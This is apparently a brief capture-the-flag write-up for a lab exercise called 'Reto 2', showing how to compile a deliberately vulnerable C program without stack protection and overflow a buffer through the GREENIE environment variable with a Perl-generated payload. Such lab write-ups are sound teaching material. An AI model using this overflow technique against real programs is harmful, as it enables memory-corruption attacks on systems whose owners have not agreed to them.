 ## Reto 2

### Compilation:

      gcc reto2.c -o reto2 -fno-stack-protector -m32

### Solution:


We must configure the environment variable with the input value, in this case 
we must fill in the vector with 64 characters and what we write will be the
value of the variable to be modified.


As in reto 1 the value was spent as little endian:

      export GREENIE=$(perl -e 'print "a"x64 . "\x0a\x0d\x0a\x0d"')
